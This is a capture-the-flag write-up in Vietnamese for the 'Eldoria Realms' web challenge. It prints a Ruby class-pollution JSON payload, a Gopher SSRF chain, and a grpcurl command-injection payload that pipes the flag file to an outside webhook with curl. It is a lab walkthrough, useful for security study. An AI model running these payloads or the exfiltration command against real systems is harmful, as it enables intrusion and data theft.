 ```yaml
---
layout: default
title: "Eldoria Realms"
date: 2025-03-28 16:31:06 +0700
tags: [CTF, Web, SSRF, gRPC, Command-Injection]
---
```


# 🎮 Eldoria Realms - Web Challenge

> Author: tan3ora

- **Tên:** Eldoria Realms
- **Description:** A portal that allows players of Eldoria to transport between realms, take on quests, and manage their stats. See if it's possible to break out of the realm to gather more info on Malakar's spells inner workings.
- **Có source code**

---

## 🔍 Phân tích

Trang web có 2 service:

1. Website viết bằng **Ruby**
2. [gRPC Server](https://viblo.asia/p/co-ban-ve-grpc-va-cach-protobuf-ma-hoa-giu-lieu-trong-grpc-yZjJYzBDLOE)

---

### 🚨 Ruby Class Pollution qua merge đệ quy

Khi phân tích source code, ta phát hiện đoạn merge dữ liệu user như sau:

```ruby
class Adventurer
  @@realm_url = "http://eldoria-realm.htb"
  attr_accessor :name, :age, :attributes

  def self.realm_url
    @@realm_url
  end

  def initialize(name:, age:, attributes:)
    @name = name
    @age = age
    @attributes = attributes
  end

  def merge_with(additional)
    recursive_merge(self, additional)
  end

  private

  def recursive_merge(original, additional, current_obj = original)
    additional.each do |key, value|
      if value.is_a?(Hash)
        if current_obj.respond_to?(key)
          next_obj = current_obj.public_send(key)
          recursive_merge(original, value, next_obj)
        else
          new_object = Object.new
          current_obj.instance_variable_set("@#{key}", new_object)
          current_obj.singleton_class.attr_accessor key
        end
      else
        current_obj.instance_variable_set("@#{key}", value)
        current_obj.singleton_class.attr_accessor key
      end
    end
    original
  end
end
```

**Vấn đề:**  
Hàm `recursive_merge` sẽ tự tạo biến instance mới nếu key chưa tồn tại → mở ra khả năng **class pollution**.

**Tại endpoint `/merge-fates`:**

```ruby
post "/merge-fates" do
  content_type :json
  json_input = JSON.parse(request.body.read)
  random_attributes = { ... }

  $player = Player.new(
    name: "Valiant Hero",
    age: 21,
    attributes: random_attributes
  )

  $player.merge_with(json_input)
  { 
    status: "Fates merged", 
    player: { name: $player.name, age: $player.age, attributes: $player.attributes } 
  }.to_json
end
```

→ Ta có thể chỉnh sửa attribute của **superclass**:

**Payload:**
```json
{
  "class": {
    "superclass": {
      "realm_url": "attacker_url"
    }
  }
}
```

**Kết quả:** Mỗi lần truy cập `/connect-realm` → server sẽ gọi `curl attacker_url`.

---

## 🚀 Gopher SSRF → Command Injection gRPC

Trong server gRPC có function:

```go
func healthCheck(ip string, port string) error {
  cmd := exec.Command("sh", "-c", "nc -zv "+ip+" "+port)
  output, err := cmd.CombinedOutput()
  ...
}
```

Kết hợp với Dockerfile:
```
RUN wget https://curl.haxx.se/download/curl-7.70.0.tar.gz ...
```

→ Curl version dễ bị **SSRF Gopher → Raw TCP Injection**

---

## 🧨 Khai thác

**Flow:**  
`Ruby Class Pollution → Curl Gopher SSRF → gRPC Protocol → Command Injection`

### 1. Craft request gRPC

Dùng [grpcurl](https://github.com/fullstorydev/grpcurl):

```bash
grpcurl   -plaintext   -proto ./challenge/live_data.proto   -d '{"ip":";","port":"curl -d `cat /flag* | base64` <link_webhook> "}'   localhost:50051   live.LiveDataService.CheckHealth
```

**Dùng Wireshark → Follow TCP Stream để lấy raw request**

![Follow TCP Stream](http://note.bksec.vn/pad/uploads/12087ecd-b40d-45f7-90f4-64344c2e15fc.png)

---

### 2. Chuyển thành Gopher Payload

Export TCP stream → Python encode:

```python
import urllib.parse

with open("dump_raw1", "rb") as f:
    raw_data = f.read()

encoded_data = urllib.parse.quote_from_bytes(raw_data)
gopher_url = f"gopher://127.0.0.1/_{encoded_data}"

print("Gopher URL:")
print(gopher_url)
```

---

### 3. Thay đổi realm_url

Gửi request đến `/merge-fates`:

```json
{
  "class": {
    "superclass": {
      "realm_url": "gopher://127.0.0.1/_<payload>"
    }
  }
}
```

**Request thành công:**

![Pollution Payload](http://note.bksec.vn/pad/uploads/3d276f00-5528-4a3b-bb5c-377a9904d5f2.png)

---

### 4. Trigger SSRF → Command Injection

Gửi request tới `/connect-realm`:

![Trigger](http://note.bksec.vn/pad/uploads/affde1b9-2f15-4850-b871-f1b481311395.png)

---

### 5. Lấy flag

Payload thực thi lệnh:
```bash
curl -d `cat /flag* | base64` <webhook>
```

Webhook nhận về flag:

![Flag](http://note.bksec.vn/pad/uploads/cd35619e-01c9-4af1-8bde-1089b54ae0f3.png)

---


